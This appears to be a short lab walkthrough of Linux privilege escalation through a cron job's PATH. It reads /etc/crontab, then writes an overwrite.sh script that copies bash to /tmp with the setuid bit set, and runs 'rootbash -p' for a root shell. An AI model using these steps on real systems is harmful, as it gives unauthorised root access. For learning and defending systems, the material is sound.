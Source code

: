 # Cron Jobs - PATH Environment Variable

View the contents of the system-wide crontab:

`cat /etc/crontab`

Note that the PATH variable starts with **/home/user** which is our user's home directory.

Create a file called **overwrite.sh** in your home directory with the following contents:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Make sure that the file is executable:

`chmod +x /home/user/overwrite.sh`

Wait for the cron job to run. Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`
